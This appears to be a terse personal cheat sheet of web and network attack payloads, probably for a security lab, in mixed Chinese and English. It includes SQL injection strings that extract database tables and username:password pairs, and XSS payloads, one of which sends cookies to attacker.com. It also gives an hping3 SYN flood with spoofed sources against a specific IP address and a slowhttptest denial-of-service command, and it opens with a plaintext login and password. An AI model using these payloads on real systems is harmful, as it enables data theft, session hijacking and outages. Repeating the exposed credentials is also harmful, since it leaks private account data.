 ID:1230
Username:nick
邮箱:1@1
密码：12@323fseEWV

1.SQLi

' or 1=1 -- 

' UNION SELECT null, database() -- 

' UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema=database() -- 

' UNION SELECT null, concat(username, ':', password) FROM users -- 

1' AND 1=1 --  

1' AND 1=2 -- 

1' AND IF(1=1, SLEEP(3), 0) --  

2. XSS. 
<script>alert('XSS')</script>

<img src="x" onerror="alert(1)">

<input onfocus="alert(1)" autofocus>
<input onblur="alert(1)" autofocus><input autofocus>

<svg onload="alert(1)">

<script>new Image().src="http://attacker.com/log?cookie="+document.cookie</script>

3. upload file
上传多个file在uploadfile文件中

4. TCP/IP攻击
sudo hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 158.132.209.43

5. HTTP攻击（使用 `SlowHTTPTest` 工具）
slowhttptest -c 500 -B -g -o outputfile -i 10 -r 200 -t POST -u http://<目标IP>/index.php -x 24 -p 3
